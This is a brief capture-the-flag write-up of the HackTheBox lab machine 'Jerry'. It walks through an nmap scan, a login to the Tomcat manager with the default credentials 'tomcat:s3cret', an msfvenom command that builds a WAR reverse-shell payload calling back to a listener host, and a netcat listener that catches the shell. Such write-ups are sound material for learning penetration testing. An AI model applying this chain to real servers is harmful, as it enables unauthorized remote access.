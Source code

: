 # Jerry

Some more easy difficulty HackTheBox machines. This one was particularly fast and it didn't take me much more than 10 minutes. I started off with a standard nmap tcp scan. 

```bash
nmap -sV -vv -p- -Pn -T4 10.10.10.95 
```


This showed me that the port 8080 was open, and running Apache tomcat. 

I went http://10.10.10.95:8080/ and dug around for a bit. On the webpage was a button that said "Manager"


Clicking on it, it prompted me to input credentials. It still had the default tomcat credentials of 
>*tomcat:s3cret*


This brought me to a /manager webpage where I was able to upload .war files. 

Using msfvenom, I crafted a payload that allowed me to gain a reverse shell. I used the below command:
```bash 
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.2 lport=4321 -f war -o pwn.war 
```


Then, before uploading the file I started a netcat listener with:
```bash
nc -nvlp 4321
```


Uploading the file, I then clicked it, and checked back on my netcat listener where I found that it had caught a reverse shell. 
Digging around int the directory structure showed me that the user AND root flags were in C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt